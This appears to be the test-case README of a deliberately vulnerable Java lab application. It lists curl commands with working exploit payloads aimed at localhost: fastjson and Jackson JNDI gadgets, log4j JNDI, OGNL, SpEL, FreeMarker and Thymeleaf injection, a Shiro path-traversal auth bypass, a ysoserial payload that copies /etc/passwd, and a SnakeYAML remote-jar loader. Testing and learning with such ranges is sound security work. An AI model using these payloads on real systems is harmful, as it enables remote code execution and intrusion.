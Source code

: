 ### 测试用例

1. 测试/actuator接口
2. 测试fastjson漏洞
   ```   
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
   ```
3. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /shiro/auth 会提示认证失败
   * 使用 /shiro/no-auth/%2e%2e/auth 可以绕过认证
4. 测试ognl执行
   ```
   curl 127.0.0.1:8080/ognl/parse -d 'ognl=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
   ```
5. 测试spel执行
   ```
   curl 127.0.0.1:8080/spel/parse -d "spel=T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"
   ```
6. 测试log4j漏洞
   ```
   curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1099/a}'
   ```
7. 测试freemarker漏洞(JythonRuntime需要本地有class): https://tttang.com/archive/1412/
   ```
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'
   ```
8. 测试jndi lookup
   ```
   curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
   ```
9. 测试thymeleaf模板注入: https://github.com/veracode-research/spring-view-manipulation
   ```
   curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
   ```
10. 测试readObject()
   ```
   ysoserial CommonsCollections6 "cp /etc/passwd /tmp" > test
   curl 127.0.0.1:8080/object/parse --data-binary @test -H 'Content-Type: text/plain'
   ```
11. 测试snake yaml漏洞
   ```
   curl 127.0.0.1:8080/snakeyaml/parse -d 'yaml=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/payload.jar"]]]]'
   ```
12. 测试jackson反序列化
   ```
   curl 127.0.0.1:8080/jackson/parse -d 'json=["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://127.0.0.1:1389/Exploit"}]'
   ```
13. 测试xstream反序列化
   ```
   curl 127.0.0.1:8080/xstream/parse -H 'Content-Type: text/xml' -d @test.xml
   ```
